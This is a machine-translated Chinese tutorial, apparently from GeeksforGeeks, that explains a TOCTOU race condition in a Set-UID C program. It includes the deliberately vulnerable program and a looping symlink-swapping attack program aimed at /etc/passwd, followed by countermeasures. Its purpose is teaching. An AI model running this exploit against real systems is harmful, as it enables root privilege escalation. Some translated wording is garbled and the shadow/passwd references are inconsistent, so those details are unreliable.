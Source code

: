 # 在 C++中实现竞争条件

> 原文:[https://www . geeksforgeeks . org/impering-race-condition-in-c/](https://www.geeksforgeeks.org/implementing-race-condition-in-c/)

**先决条件–**[种族条件弱点](https://www.geeksforgeeks.org/race-condition-vulnerability/)

当执行中的两个并发线程以一种方式访问共享资源时，它会根据线程或进程的定时无意中产生不同的结果，这就产生了**竞争条件**。

简单地说:
如果我们的特权程序(具有提升的访问控制的应用程序)也有一个带有竞争条件漏洞的代码块，那么攻击者可以通过运行能够与我们的特权程序“竞争”的并行进程来利用这一点。如果他们攻击的意图是改变其实际的预期行为，那么这可能会在我们的程序中造成竞争条件。

**示例:**

```
/* A Vulnerable Program */
int main() {
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    /* get user input */
    scanf("%50s", buffer );

    if(!access(fn, W_OK)){
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
}
```

**用户程序分析:**

**1。**上面给出的程序是一个根用户拥有的程序，它是一个 Set-UID 程序，也就是一个特权程序。

**2。**程序的功能是将用户输入的字符串附加到我们创建的文件 */tmp/XYZ* 的末尾。

**3。**给定的代码以根权限运行，因此它的有效用户标识( *euid* )等于 0。它对应于一个根，因此可以覆盖任何文件。

**4。**使用*访问()*系统调用，程序防止自己意外覆盖别人的文件。它首先使用 access()调用检查真实用户 ID [uid]是否具有文件/tmp/XYZ 的适当访问权限。

**5。**如果检查结果为真，并且真实用户标识确实具有权限，则程序会打开文件并将用户输入附加到文件中。

**6。**在 *fopen()* 的系统调用中有一个额外的检查，但它只检查 *euid(有效用户 ID)* 而不是 *uid(真实用户 ID)* ，作为一个特权程序，它总是被满足的，因为该程序作为一个 Set-UID 程序(特权程序)运行，其 *euid* 为 0(根用户)。

**7。**现在，可能发生的实际错误点可能是由于要写入的文件的检查“ *access()* 和使用“ *fopen()* ”之间的时间窗口。 *access()* 系统调用使用的文件很可能与 *fopen()* 系统调用使用的文件不同。

**8。**只有当恶意攻击者能够以某种方式使 */tmp/XYZ* 成为一个“**符号链接**”来指向一个受保护的文件时，这才是可能的，否则该文件就像 */etc/shadow* (它包含我们的密码)一样无法在使用时间窗口(TOCTOU 窗口)的检查时间内访问。

```
unlink("/tmp/XYZ");
symlink("/etc/passwd","/tmp/XYZ");
```

**9。**如果成功，攻击者可以将用户输入附加到 */etc/shadow* 的末尾，而不是*符号链接的原始目标，*就像创建一个拥有所有权限的新根用户一样，只需将一条语句附加到 *shadow* 文件。

**10。**因此，该窗口会导致竞争条件漏洞。

因此，有可能在两个系统调用(即 access()和 open()之间进行上下文切换，也有可能存在竞争条件漏洞。

**攻击程序代码:**

```
#include<unistd.h>
int main(){
    while(1){
        unlink("/tmp/XYZ");
        symlink("/home/seed/myfile", "/tmp/XYZ");
        usleep(10000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(10000);
        }
    return 0;
}
```

该程序旨在通过使用 *usleep(10000)* 展示钢筋混凝土，因此有意创建一个 TOCTOU 窗口。

*   这里我们正在创建一个*符号链接*到一个我们普通用户拥有的文件(my file)，所以要通过*访问()*检查。
*   然后生成一个窗口，让我们休眠 10000 微秒，让我们易受攻击的进程运行。
*   然后*取消*与*符号链接*的链接，并创建一个*符号链接*到 */etc/passwd。*

**应对措施:**

**1。应用最小特权原则:**
根据该原则，我们尝试对 Set-UID 程序的所有部分降低文件的特权。特别是不需要提升特权的。为此，我们使用 *geteuid* 和 *seteuid* 系统调用来降级，然后在易受攻击程序的适当位置重新升级权限。

**2。Ubuntu 内置保护方法:**

```
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
```

**3。系统调用的重复检查:**
竞争条件更多的是概率性的，而不是确定性的(我们无法确定何时能够访问文件，它可能发生在 TOCTOU 检查窗口内的任何实例中)。使用对 *access()* 和 *open()* 系统调用的重复检查，我们可以匹配文件的 *inode* 值。虽然这个值在每次检查中是相同的，但是我们可以说文件是打开的，如果它不同，这意味着文件被更改了，我们不会打开它。

**4。原子操作:**

```
f = open(file, O_CREAT | O_EXCL)
```

如果文件已经存在，那么上面提到的这两个说明符将不会打开指定的文件。因此实现了检查的原子性和文件的使用。

参考文献和源代码:锡拉丘兹大学种子实验室。